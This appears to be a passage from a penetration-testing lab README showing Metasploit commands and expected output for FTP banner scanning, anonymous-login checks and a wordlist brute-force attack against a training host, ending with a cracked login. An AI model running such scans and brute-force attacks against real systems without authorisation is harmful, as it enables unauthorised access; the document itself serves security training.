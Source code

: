 ## 🧪 Real Lab Examples

### Example 1: FTP Version Detection
```bash
# Start Metasploit console
msfconsole

# Load FTP version scanner
use auxiliary/scanner/ftp/ftp_version

# Configure target
set RHOSTS demo.ine.local

# Execute scan
run

# Expected output
[+] 192.228.115.3:21    - FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.228.115.3]\x0d\x0a'
[*] demo.ine.local:21   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Example 2: FTP Anonymous Login Testing
```bash
# Load anonymous FTP scanner
use auxiliary/scanner/ftp/anonymous

# Set target
set RHOSTS demo.ine.local

# Run anonymous test
run

# Expected output (when anonymous disabled)
[*] demo.ine.local:21   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Example 3: FTP Brute Force Attack
```bash
# Load FTP login scanner
use auxiliary/scanner/ftp/ftp_login

# Configure target
set RHOSTS demo.ine.local

# Set wordlists
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Execute brute force
run

# Expected output with successful login
[+] 192.228.115.3:21 - LOGIN Successful: sysadmin:654321
[-] 192.228.115.3:21 - LOGIN FAILED: sysadmin:admin (Incorrect: )
[-] 192.228.115.3:21 - LOGIN FAILED: sysadmin:123456 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
```
